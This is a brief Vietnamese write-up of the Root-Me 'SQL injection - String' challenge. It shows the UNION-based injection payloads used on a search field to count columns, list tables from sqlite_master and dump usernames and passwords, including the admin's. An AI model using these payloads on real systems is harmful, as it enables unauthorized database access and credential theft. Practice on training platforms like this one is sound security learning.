 ## Link challenge: [SQL injection](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)

Ta sẽ thực hiện sql injection ở chức năng `Search`. Vào ô search nhận thấy trả về kết quả gồm hai cột, check bằng

`' UNION SELECT NULL,NULL--`
=> Không trả về lỗi => 2 cột

Giờ cần tìm table mình cần lấy thông tin thông qua `sqlite_master`

`'union select name, sql from sqlite_master--`

![img1](https://i.imgur.com/FzvmzCg.png)

Thấy có bảng users lưu thông tin accounts, ta có:

`' UNION SELECT username,password from users--`

![img2](https://i.imgur.com/pMz8jz4.png)

Thành công lấy được username và password của admin :v